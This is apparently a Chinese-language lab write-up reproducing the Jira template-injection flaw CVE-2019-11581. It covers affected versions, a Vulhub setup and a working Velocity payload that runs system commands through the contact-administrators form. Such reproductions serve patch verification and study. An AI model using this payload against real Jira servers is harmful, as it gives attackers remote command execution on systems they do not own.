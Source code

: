 # Atlassian Jira 模板注入漏洞 CVE-2019-11581

## 漏洞描述

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。 

参考资料：

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw

## 漏洞影响

多个版本前存在利用模板注入执行任意命令：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

## 环境搭建

Vulhub执行如下命令启动一个Jira Server 8.1.0：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`会进入安装引导，切换“中文”，VPS条件下选择“将其设置为我”（第一项）去Atlassian官方申请一个Jira Server的测试证书（不要选择Data Center和Addons）：

然后继续安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

![img](images/7.png)

添加 SMTP 电邮服务器 `/secure/admin/AddSmtpMailServer!default.jspa`

![img](images/8.png)

进入系统设置 `/secure/admin/ViewApplicationProperties.jspa` ，开启“联系管理员表单”

![img](images/9.png)

貌似还要有项目才能玩，所以随便创建一个示例就行了,然后你就可以愉快的玩耍了

## 漏洞复现

PoC 和 CVE-2019-3396 一样

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

Linux 没有 calc, 所以

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

运行`poc.py`或者进入`/secure/ContactAdministrators!default.jspa` 直接提交 PoC

![img](images/11.png)

![img](images/12.png)

如果没看到 smtpd 有数据，那么就可能卡队列了

电邮队列瞅一瞅 `/secure/admin/MailQueueAdmin!default.jspa`

![img](images/13.png)